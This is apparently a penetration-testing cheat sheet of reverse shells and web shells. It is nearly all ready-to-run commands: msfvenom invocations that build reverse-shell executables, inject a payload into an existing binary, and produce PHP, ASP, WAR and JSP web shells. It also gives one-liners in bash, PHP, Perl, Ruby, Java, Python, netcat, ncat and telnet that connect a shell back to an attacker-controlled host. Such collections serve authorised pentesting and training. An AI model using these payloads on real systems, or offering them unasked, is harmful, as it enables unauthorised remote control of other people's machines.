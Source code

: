 # Reverse-shells

This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:  
[https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Msfvenom

There is more info on this topic in the metasploit chapter in /exploiting.

Therse is an important difference between non-staged and staged payload. A **non-staged** shell is sent over in one block. You just send shell in one stage. This can be caught with metasploit multi-handler. But also with netcat.

**staged** shells send them in turn. This can be useful for when you have very small buffer for your shellcode, so you need to divide upp the payload. Meterpreter is a staged shell. First it sends some parts of it and sents up the connetion, and then it sends some more. This can be caught with metasploit multi-handlet but not with netcat.

### Windows

#### Meterpreter

**Standard meterpreter**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
```

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

**Meterpreter HTTPS**  
It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.101 LPORT=443 -f exe -o met_https_reverse.exe
```

#### Non-staged payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

#### Staged payload

```
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

This must be caught with metasploit. It does not work with netcat.

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

### Inject payload into binary

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## Linux

### Binary

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

### Bash

```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

```
exec /bin/bash 0&0 2>&0
```

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Php

```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Netcat

**Bind shell**

```
#Linux
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555

# Windows
nc.exe -nlvp 4444 -e cmd.exe
```

**Reverse shell**

```
# Linux
nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash

# Windows
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe
```

**With -e flag**
```
nc -e /bin/sh ATTACKING-IP 80
```

```
/bin/sh | nc ATTACKING-IP 80
```

**Without -e flag**

```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

### Ncat

Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentestjob you might not want to communicate unencrypted.

Bind

```
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -v 192.168.1.103 5555 --ssl
```

### Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

### Perl

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Ruby

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Web-shells - Platform Independent

### PHP

This php-shell is OS-independent. You can use it on both Linux and Windows.

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

### ASP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

### WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

### JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```



